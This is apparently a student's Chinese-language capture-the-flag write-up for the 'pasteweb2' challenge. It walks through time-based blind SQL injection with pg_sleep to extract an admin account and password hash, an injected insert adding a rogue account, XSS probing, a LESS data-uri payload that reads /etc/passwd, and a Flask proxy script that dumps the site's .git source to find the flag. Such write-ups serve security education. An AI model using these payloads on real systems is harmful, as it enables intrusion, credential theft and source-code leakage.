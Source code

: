 # hw_pasteweb2

1. 這題延續上一題，先爆出了 column 欄位 “user_id”、”user_account”、“user_password”。

```python
payload = f"select case when substring(column_name,{k},1)='{i}' then pg_sleep(2) else pg_sleep(0) end from information_schema.columns where table_name='s3cr3t_t4b1e'  ;"
```

用這段 payload 可以爆出 admin 的字串

```python
payload = f" select case when substring(user_account,{i},1)='{j}' then pg_sleep(1.5) else pg_sleep(0) end from pasteweb_accounts limit 1"
```

然後用這段 payload 爆出 password 的密碼，但發現是 hash ，所以用線上的 crash 去破解後，得到 ”P@ssw0rD“

```python
payload = f" select case when substring(user_password,{i},1)='{j}' then pg_sleep(1.5) else pg_sleep(0) end from pasteweb_accounts limit 1"
```

![截圖 2022-12-27 下午9.32.43.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-27_%25E4%25B8%258B%25E5%258D%25889.32.43.png)

然後就利用這組 admin 帳號密碼，就可以成功登入。

![截圖 2022-12-27 下午9.38.33.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-27_%25E4%25B8%258B%25E5%258D%25889.38.33.png)

然後因為提示有說要幫自己註冊一個帳號密碼，免得會跟人共用不知道什麼 paylaod 的內容，於是想辦法用 SQL injection 去 insert 一個 row，就是加一組帳號進去，payload 如下。

```sql
insert into pasteweb_accounts (user_id, user_account, user_password) values ( "100","hacker01","16d7a4fca7442dda3ad93c9a726597e4")
```

1. 登入後發現有 Edit HTML、Edit CSS 、View、Share 幾個選項，先嘗試在 HTML隨意嘗試 XSS payload ，但好像什麼事情也沒發生，但我點到 view 後，發現XSS Script 有成功，猜測這邊是可以利用 Edit HTML 及 Edit CSS 可以去執行 XSS Script，然後從 View 可以看到 XSS Script 的攻擊結果。

![截圖 2022-12-28 下午3.13.37.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-28_%25E4%25B8%258B%25E5%258D%25883.13.37.png)

![截圖 2022-12-28 下午3.14.26.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-28_%25E4%25B8%258B%25E5%258D%25883.14.26.png)

1. 然後發現可以 Edit HTL、Edit CSS、，期中 Edit CSS 可以 Support LESS，研究了一下LESS是一兼容兼容的的語言，可以通過編譯器轉換成合適的CSS語言法，提供給瀏覽器進行渲染。然後我這邊參考網路使用 LESS 的 data-url 去 XSS Script 的一些範例，於是嘗試使用下面這一段 payload 去執行 uri-data 去讀取資料，然後成功返回 base64 的一段 code ，用 online tool 解碼後，成功解出 /etc/passwd 的內容。

```css
.test {
  content: data-uri('/etc/passwd');
}
```

![截圖 2022-12-28 下午3.18.58.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-28_%25E4%25B8%258B%25E5%258D%25883.18.58.png)

![截圖 2022-12-28 下午3.19.53.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-28_%25E4%25B8%258B%25E5%258D%25883.19.53.png)

1. 接下來卡關很久，因為讀取了很多 file 裡面的內容，但看起來都跟解題沒關係，直到我找在這個路徑 “/var/www/html/.git” 找到 ./git 的 file，而且隨意讀取了 .git/config ，這代表這邊是有機會 git leak 的，但是讀取完資料夾後，發現沒有辦法每個檔案都讀取到，因為不知道每一個檔案的名稱。

![截圖 2022-12-28 下午11.27.56.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-28_%25E4%25B8%258B%25E5%258D%258811.27.56.png)

![截圖 2022-12-28 下午11.27.22.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-28_%25E4%25B8%258B%25E5%258D%258811.27.22.png)

1. 接下來參考了很多網路資料跟人家解類似題目的方法，這邊我得到一個想法，就是用使用 git tool 去載 git 檔案，然後用自己寫一個 server 去把 git tool 的 request 轉為 payload ，server 再把 paylaod 送到 web 去，然後再去讀取 web view 裡面的網頁原始碼，再把裡面的資訊轉悚給 git tool ，有點像是寫一個 server 當成 web 跟 git tool 的 proxy 。

以下是我的 code。

```python
from flask import Flask
import base64
import requests
import json

app = Flask(__name__)
cookies = { 'PHPSESSID' : 'j6h2hkmmmts4uao04u107i25lh' }

@app.route('/<path:path>')
def catch_all(path):
    editCSS(path)
    file_info = view()
    return file_info

def editCSS(path):
    #edit CSS
    url_edit = 'https://pasteweb.ctf.zoolab.org/editcss.php'
    value = { 'less' : "test {content: data-uri('/var/www/html/"+path+"');}"}
    print(f"[*] Update value :  {value}")
    print(f"[*] Check  path  :  {path} ")
    r = requests.post(url_edit, data=value, cookies=cookies)  

def view():
    #read file information - view.php
    url_view = 'https://pasteweb.ctf.zoolab.org/view.php'
    r = requests.get(url_view, cookies=cookies)  
    response = r.content.decode('utf-8')
    string_start = response.find(';base64,')
    string_end = response.find('");\n')
    info = response[string_start+8:string_end]
    print(f"[*] Origin Value :  {info}")
    print(f"[*] Return Value : ",base64.b64decode(info) )

    return base64.b64decode(info)

if __name__ == '__main__':
    app.run()
```

1. 寫完後就直接後把 flask 架起來。然後我使用 git 工具 scramble ，嘗試去 request flask server，但不知道為什麼會有下面這個問題，於是我開始去 debug ，發現第一個 scramble 的 request 要去讀 .git/HEAD ，flask 可以成功要到資料並回傳byte 資料  b'ref: refs/heads/master\n' 給 scrammble ，第二個 scramble 的 request 要去讀 .git/refs/heads/master ，flask 也可以成功要到資料並回傳 byte b'f7fac4b9675f72b3333c732e7ed5a0066d78599d\n' 給 scramble 然後scramble 會有下面這個 error。研究了一下才知道原來是 mac 沒有裝 wget …，所以 git tool 沒有辦法透過 wget 接續去下載資料，以後會先檢查工具可以不可以正常運行，再來嘗試跑 paylaod 的檔案。

```python
fatal: Not a valid object name f7fac4b9675f72b3333c732e7ed5a0066d78599d
./scrabble: line 64: .git/refs/heads/master: No such file or directory
fatal: not a git repository (or any of the parent directories): .git
```

1. 最後 brew install wget 之後， git tool 就可以成功取得所有 source code，然後這邊我直接 
cat index.php | grep “FLAG*” 就成功取得 FLAG。

![截圖 2022-12-28 下午11.00.20.png](hw_pasteweb2%20ec3c3bb2105141639ae45aa6057579b7/%25E6%2588%25AA%25E5%259C%2596_2022-12-28_%25E4%25B8%258B%25E5%258D%258811.00.20.png)

參考資料

1. 爬蟲的一些解釋 : [https://www.cnblogs.com/wyy1480/p/11516693.html](https://www.cnblogs.com/wyy1480/p/11516693.html)
2. git leak 教學 : [https://ithelp.ithome.com.tw/articles/10265467?sc=pt](https://ithelp.ithome.com.tw/articles/10265467?sc=pt)
3. data-url 使用範例[https://www.ctfiot.com/53040.html](https://www.ctfiot.com/53040.html)